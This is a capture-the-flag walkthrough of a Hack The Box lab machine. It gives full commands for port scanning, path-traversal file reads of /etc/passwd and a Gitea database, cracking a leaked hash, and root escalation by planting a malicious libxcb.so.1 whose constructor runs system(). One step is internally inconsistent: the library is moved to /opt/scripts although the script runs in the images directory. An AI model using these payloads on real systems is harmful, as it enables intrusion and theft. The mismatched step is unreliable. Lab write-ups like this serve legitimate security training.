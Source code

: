 
# Titanic – HTB Walkthrough

## 🧭 Enumeration
We begin by scanning all ports on the host:

```bash
nmap -sS -p- 10.10.11.55 -T5
```

Output:
```bash
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
```

Port 80 is hosting a web application, and port 22 is running an SSH service.

## 🔍 Port 80 – Web Discovery
```bash
nmap -sV -p 80 10.10.11.55 -T5
```

Output:
```bash
80/tcp open  http Apache httpd 2.4.52
```

After adding `titanic.htb` to `/etc/hosts`, browsing the site reveals a ship booking platform.  
Submitting the booking form triggers the download of a JSON file from:

```
/download?ticket=<uuid>.json
```

## 🧪 Local File Inclusion (LFI)
Modifying the `ticket` parameter confirms the presence of LFI:

```bash
curl "http://titanic.htb/download?ticket=../../../../etc/passwd"
```

We're also able to retrieve:

```bash
curl "http://titanic.htb/download?ticket=../../../../home/developer/user.txt"
```

→ ✅ User flag obtained.

## 🔍 dev.titanic.htb – Gitea Discovery
Exploring the subdomain `dev.titanic.htb` reveals a Gitea instance. Inside the `docker-config` repository:

```yaml
services:
  mysql:
    environment:
      MYSQL_ROOT_PASSWORD: 'MySQLP@$$w0rd!'
      MYSQL_USER: sql_svc
      MYSQL_PASSWORD: sql_password
```

We also find the Gitea data volume path:
```
/home/developer/gitea/data/gitea/gitea.db
```

Using the LFI vulnerability:
```bash
curl -s "http://titanic.htb/download?ticket=../../../../home/developer/gitea/data/gitea/gitea.db" -o gitea.db
```

Open the file using `sqlite3` and extract the developer's credentials.

## 🔐 Cracking Developer Credentials
Convert the hash into hashcat format (mode 10900) and run:

```bash
hashcat -m 10900 hash.txt rockyou.txt
```

Result:
```
developer:25282528
```

→ ✅ SSH access gained.

## 🧑‍💻 SSH Access as developer
```bash
ssh developer@titanic.htb
```

Once inside, we find a suspicious script at `/opt/scripts/identify_images.sh`:

```bash
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find . -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

## 🧨 Privilege Escalation via ImageMagick

The installed version of ImageMagick (`7.1.1-35`) is vulnerable to RCE.  
We can exploit this by planting a malicious shared object named `libxcb.so.1`:

```c
gcc -x c -shared -fPIC -o libxcb.so.1 - << EOF
#include <stdlib.h>
__attribute__((constructor)) void init() {
    system("cp /root/root.txt /tmp/root.txt;");
}
EOF
```

Drop it into the script’s working directory:

```bash
mv libxcb.so.1 /opt/scripts/
```

When the script is executed, it will load our forged shared object.

As a result, we get the root flag in `/tmp`:

```bash
cat /tmp/root.txt
```

→ ✅ Root flag obtained.

## 🏁 Summary

| Step          | Description                                                 |
|---------------|-------------------------------------------------------------|
| nmap          | Enumerated open ports (22, 80)                              |
| LFI           | Exploited `/download?ticket=` to read local files           |
| Gitea         | Found dev.titanic.htb and retrieved Gitea database          |
| DB Dump       | Extracted and cracked developer password from `gitea.db`   |
| SSH           | Gained shell access as developer                            |
| ImageMagick   | Dropped malicious `libxcb.so.1` to escalate privileges      |
| Root          | Read root flag via the triggered payload                    |

🎉 Rooted!
